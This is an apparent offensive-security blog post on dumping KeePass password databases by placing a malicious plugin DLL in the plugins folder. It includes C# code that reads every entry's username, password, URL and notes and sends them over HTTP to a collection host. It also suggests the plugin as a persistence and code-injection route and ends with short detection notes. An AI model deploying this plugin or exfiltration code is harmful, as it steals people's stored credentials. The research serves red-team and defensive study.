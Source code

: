 # **Dumping KeePass**


### tl;dr

Using KeePass's extension feature it is very simple to dump the entire DB and extract it. **Simply put, a single DLL on disk will extract the entire DB in plaintext.** While I focus on Windows, this technique can easily be ported to other OS's

Note: **I do not believe any of this is novel or new, just not widely used.** I spoke to a few friends and they were not aware of this particular TTP against KeePass. Of course after I completed this research I was made aware of the [KeeFarce Reborn](https://github.com/d3lb3/KeeFarceReborn/tree/main) repository. However, their tool uses the export function, which I explicitly avoided since it has been known to be used on other dumping tools.

### Introduction

Password Vaults continue to rise in popularity and KeePass is one of the more popular tools used. I have already taken a look at [1Passwords Chrome Extension](https://syntax-err0r.github.io/1Password_Extension_PostEx.html) and now wanted to look at a thick client on Windows. A lot of research has been put into KeePass such as [KeeThief](https://github.com/GhostPack/KeeThief) but I ultimately wanted a way to perform the extraction without injecting into the process.

I will detail one of the many methods/avenues I tried before ultimately landing on the "Easy Way". All the steps/information is for a default setup of KeePass. **I leave some steps and a full PoC out as it is worthwhile to go through everything yourself.** 

### Methodology/Failed Attempts

My initial goal was to be in a remote process context, scrape the memory for keepass.exe, and decrypt the credentials which I thought would be possible because ["KeePass uses the Windows DPAPI"](https://keepass.info/help/base/security.html). So I fired up dnSpy and began to debug the process. I set breakpoints on interestingly named functions like "Decrypt", "ReadData", etc. However I quickly noticed under the hood it was not the traditional DPAPI that can be used on a users entire logon context like Chrome used to use. Instead it was using [SystemFunction041](https://learn.microsoft.com/en-us/windows/win32/api/ntsecapi/nf-ntsecapi-rtldecryptmemory).

![](assets/system041.png)

Additionally, when calling that API it takes a Flag to identify the scope of the encryption/decryption and ties it to the process instead of the logon session. 

![](assets/system_scope.png)

With this in mind I thought about several ideas such as patching the process to use the LOGON flag instead of the PROCESS flag, patching the exe on disk to do the same, etc. but all ideas involved breaking the exe certificate or injection in some form, which is what I originally wanted to avoid. My last ditch effort on this was to duplicate the KeePass Process Token and attempt the RTLDecryptMemory function however this also failed, and after speaking to a friend much more versed on Windows Internals I decided to abandon this path. 

### Easy Way

While on KeePass's website I noticed the [plugins](https://keepass.info/plugins.html) page. This felt like it would be very similar to [Chrome Extensions](Silently_Install_Chrome_Extension.md). After clicking on a few projects and reviewing the documentation it was clear these were all just DLL's that use the KeePass.exe C# Methods [under the hood](https://keepass.info/help/v2_dev/plg_index.html). To install a plugin all you need to do is copy the DLL to the "/plugins" directory. So the plan forward was clear - create a KeePass plugin that leverages the same decryption methods KeePass use and since we are in the same process we will be able to call RTLDecryptMemory with the same flags (or could it be even easier). With a breakpoint on the SystemFunction041 I inspected the callstack and noticed a call from "OnEntryCopyPassword" that gets called when you right click on an entry and "copy Password".

![](assets/on_entry_copy.png)

Looking at that function you will see a "GetSafe" function being called for "Password".

![](assets/getsafe.png)

Working backwards we see the String is a part of a "PwEntry". Continuing to work backwards you will eventually see PwEntry is essentially an array of the entries within the open Database. Using their same code we can effectively use KeePass's code as a reference and dump entries, avoiding calling the RTLDecryptMemory API directly. I provide a sample code below but you will need to work on getting the proper methods/variables called. The code below then just quickly sends the information to a remote host. 

```
    foreach (var entry in entries)
    {
        var title = entry.Strings.GetSafe("Title").ReadString();
        var notes = entry.Strings.GetSafe("Notes").ReadString();
        var url = entry.Strings.GetSafe("URL").ReadString();
        var username = entry.Strings.GetSafe("UserName").ReadString();
        var password=entry.Strings.GetSafe("Password").ReadString();
        string query = string.Format(
    "title={0}&notes={1}&url={2}&username={3}&password={4}",
    HttpUtility.UrlEncode(title),
    HttpUtility.UrlEncode(notes),
    HttpUtility.UrlEncode(url),
    HttpUtility.UrlEncode(username),
    HttpUtility.UrlEncode(password)
);

        string fullUrl = "http://127.0.0.1:8080/?" + query;

        using (WebClient client = new WebClient())
        {
            client.DownloadString(fullUrl);
        }
    }
```

A sample plugin template can be found [here](https://keepass.info/plugins.html#testplugin)

### Video

![](assets/keepass_mov.gif)

### Other Interesting Tidbits

One of the drawbacks of this method is if KeePass is installed in Program Files it does require Local Admin to install. Interestingly though if a user has already installed a plugin using the native PLGX extension it is possible to hijack this and install it from a non local administrator [Source](https://blog.quarkslab.com/post-exploitation-abusing-the-keepass-plugin-cache.html).

In addition I noticed once a user decrypts the password in KeePass, the password is stored in plaintext which introduces the possibility to just scrape memory. 

![](assets/findmepassword.png)

Lastly why stick to Passwords only? Seems like a nice Persistence mechanism for code injection into a trusted process.

### Detections

- FileWrite to the KeePass extensions folder by anomalous processes
- Low prevalence (or any) extensions
